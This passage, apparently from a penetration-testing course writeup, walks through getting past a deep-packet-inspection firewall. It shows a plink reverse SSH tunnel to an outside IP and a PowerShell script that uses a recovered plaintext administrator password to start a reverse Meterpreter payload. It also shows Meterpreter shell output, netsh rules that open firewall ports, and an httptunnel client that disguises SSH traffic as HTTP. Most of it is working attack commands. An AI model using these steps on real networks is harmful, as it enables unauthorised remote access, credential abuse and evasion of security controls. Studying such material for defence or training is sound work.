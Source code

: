C:\\Windows\\temp\>plink -l root -pw pass -R 3389:127.0.0.1:3389 208.68.234.99
-P 80

This attempt fails as well, this time due to Deep Packet Inspection on the
firewall, which allows HTTP traffic only and blocks the rest.

We know for a fact that HTTP traffic on port 80 is allowed through the firewall.
We need to find a way to make our SSH Tunnel look like HTTP traffic.

This can be done by encapsulating our SSH traffic in HTTP requests, thereby
bypassing the protocol inspection test done by the Deep Packet Inspection
firewall.

A suitable tool for this job is called httptunnel

we will first need to allow this program in the Windows 7 Firewall before
running it.

Using the local administrative password found through the GPP file, we quickly
use a PowerShell script to run a second reverse Meterpreter payload with local
administrative rights.

\$secpasswd = ConvertTo-SecureString "sup3r53cr3tGP0pa55" -AsPlainText -Force

\$mycreds = New-Object System.Management.Automation.PSCredential
("Administrator",\$secpasswd)

\$computer = "DEV01"

[System.Diagnostics.Process]::Start("C:\\Windows\\temp\\dabbb118.exe","",\$mycreds.Username,
\$mycreds.Password, \$computer)

powershell -ExecutionPolicy Bypass -File c:\\Windows\\temp\\run.ps1

meterpreter \> getuid

Server username: dev01\\Administrator

meterpreter \> shell

...

C:\\Windows\\temp\> netsh advfirewall firewall add rule name="httptunnel_client"
dir=in

action=allow program="httptunnel_client.exe" enable=yes

C:\\Windows\\temp\> netsh advfirewall firewall add rule name="3000" dir=in
action=allow protocol=TCP localport=3000

C:\\Windows\\temp\> netsh advfirewall firewall add rule name="1080" dir=in
action=allow

protocol=TCP localport=1080

C:\\Windows\\temp\> netsh advfirewall firewall add rule name="1079" dir=in
action=allow

protocol=TCP localport=1079

C:\\Windows\\temp\> httptunnel_client.exe
